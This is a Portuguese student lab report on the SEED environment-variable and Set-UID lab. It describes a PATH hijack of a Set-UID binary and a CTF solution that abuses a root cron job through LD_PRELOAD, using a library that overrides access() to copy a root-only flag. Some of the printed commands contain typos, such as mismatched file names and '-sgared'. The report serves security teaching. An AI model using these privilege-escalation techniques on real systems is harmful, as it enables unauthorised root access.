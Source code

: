 # Trabalho realizado na Semana #4

## Environment Variable and Set-UID Program Lab

### Task 1:

No primeiro passo, usámos o comando ‘printenv’ para visualizar as variáveis de ambiente no terminal, como mostrado na captura de tela.

<img src="/images/image.png">

Em seguida, utilizámos o comando ‘printenv PWD’ para exibir a variável de ambiente PWD no terminal, como demonstrado na captura de tela.

<img src="/images/image2.png">

Prosseguimos para os comandos ‘export’ e ‘unset’, que foram usados para definir e eliminar uma variável de ambiente, como ilustrado nesta captura de tela:

<img src="/images/image3.png">

### Task 2:

Conforme solicitado na primeira etapa, compilámos e executámos o código contido em ‘myprintenv.c’. O resultado foi armazenado num arquivo chamado ‘file’, que continha todas as variáveis de ambiente, como mostra na captura de tela:

<img src="/images/image4.png">

Em seguida, seguimos o passo 2, descomentando o segundo ‘printenv()’ e comentando o primeiro. Compilámos e executámos o código novamente e, desta vez, o resultado foi salvo no arquivo ‘file2’, que também continha todas as variáveis de ambiente, conforme demonstrado em seguida:

<img src="/images/image5.png">

Finalmente, no passo 3, usámos o comando ‘diff’ para comparar os arquivos ‘file’ e ‘file2’, mostrando que não havia diferenças entre eles, como está evidenciado a seguir. Isto permite-nos concluir que as variáveis de ambiente do processo pai são transferidas para o processo filho sem perda de informações.

<img src="/images/image6.png">

### Task 3:

Seguindo o que foi pedido, compilámos e executámos o código contido em ‘myenv.c’. Na primeira execução, não foi apresentada nenhuma saída no terminal, como demonstrado:

<img src="/images/image7.png">

Em seguida, passamos para o passo 2, modificando uma linha de código e compilando e executando o código novamente. Desta vez, as variáveis de ambiente foram exibidas no terminal, conforme demonstrado nesta captura de tela:

<img src="/images/image14.png">

Podemos concluir que o último parâmetro da função ‘execve()’ corresponde ao ambiente no qual o comando é executado. Quando passamos ‘NULL’ como ambiente, nenhuma variável de ambiente é mostrada. No entanto, quando passamos ‘environ’ (o ambiente atual do usuário), todas as variáveis de ambiente são exibidas, como aconteceu na tarefa anterior.

### Task 4:

Após compilar e executar o código no arquivo ‘task4.c’, todas as variáveis de ambiente foram exibidas, como está ilustrado na captura de tela que se segue. Isto indica que a função ‘system()’ passa as variáveis de ambiente como um array para a função ‘execve()’.

<img src="/images/image8.png">

### Task 5:

Após criar o código no arquivo ‘task5.c’, compilá-lo, definir a propriedade como root e torná-lo um programa Set-UID, além de criar três variáveis de ambiente (PATH=/usr/bin, LD_LIBRARY_PATH=/home/seed/FSI, X=isto), ao executar o programa, observámos que todas as variáveis criadas aparecem no processo filho, exceto a variável LD_LIBRARY_PATH, por razões de segurança para evitar o controlo de links dinâmicos através de executáveis Set-UID.

<img src="/images/image9.png">
<img src="/images/image10.png">


Captura de ecrã variáveis de ambiente demonstradas por printenv, que incluem LD_LIBRARY_PATH:

<img src="/images/image11.png">
<img src="/images/image12.png">

### Task 6:

Para realizar esta tarefa, começámos por modificar a variável de ambiente PATH para incluir o diretório onde criámos os arquivos como o primeiro local para procurar o comando solicitado. Em seguida, compilámos o código fornecido no arquivo ‘task6.c’, definimos a propriedade como root e tornámos o programa num Set-UID. Em seguida, criámos um novo código no arquivo ‘attack.c’ com dois ‘printf()’ para indicar se o processo tem permissões de root ou não:

<img src="/images/image15.png">

Ao compilar o programa ‘attack.c’ com o nome ‘ls’ e executar o resultado da compilação do código ‘task6.c’, o código do primeiro é executado devido ao uso de um caminho relativo no comando ‘system()’. O ‘printf’ no terminal informa que o processo não tem permissões de root:

<img src="/images/image17.png">

No entanto, se executarmos o comando fornecido no enunciado ($ sudo ln -sf /bin/zsh /bin/sh), o mecanismo de segurança do ‘sh’ é contornado. Portanto, ao executar novamente o programa, o ‘printf’ informa que o processo tem permissões de root:

<img src="/images/image16.png">

## Environment Variable and Set-UID Program CTF

Em primeiro lugar, acedemos ao servidor descrito no contexto com o programa netcat.
Ao entrar no sevidor, podemos ler os ficheiros que lá estão guarados, e de destaque: 
- o ficheiro "admin_note.txt", que descreve que temos acesso a criar folders no diretorio "/tmp";
- o ficheiro "my_script.sh", que faz chamadas que vão buscar environment variables ao diretório "/env" e também chama o ficheiro main.c compilado (reader);
- o ficheiro "main.c", que usa a função access;

Descobrimos também que o ficheiro "my_script.sh" é corrido regularmente com privilégio de root através de crond, o que levou a possibilidade de se conseguirmos fazer com que esse ficheiro executa-se um programa nosso podermos ter acesso à flag, que está escodida atrás de privilégios de root.

Após uma pesquisa na internet, descobrimos que a função acccess tem o seguinte formato: `int access(const char *pathname, int mode);`

Para além disso, ao correr o código `echo "LD_PRELOAD=/tmp/libtentei.so.1.0.1" > env;`
permite guardar as variaveis de ambiente para uma library nossa;

Depois disso, como só podemos escrever código no /tmp, acedemos à pasta e escrevemos o seguinte programa:

` echo #include <stdio.h> `
` #include <stdlib.h> `

`int access(const char *pathname, int mode){`
`    system("/usr/bin/cat /flags/flag.txt > /tmp/sucesso.txt);`
`   return 0;`
`} > qwe.c; `

Com o programa escrito, compilamos o código da seguinte maneira:

`gcc -fPIC -g -c tentei.c;`
`gcc -sgared -o libtentei.so.1.0.1 qwe.o -lc;`

De forma a termos acesso ao ficheiro para onde vamos escrever a informação do tmp, criamos o ficheiro de texto com: `touch sucesso.txt`
e por último damos acesso ao admin para o ficheiro sucesso com `chmod 777 sucesso.txt;`

É de notar que este exercício foi bastante facilitado após a realização do exercício 7 do guião de Enviornment variables;
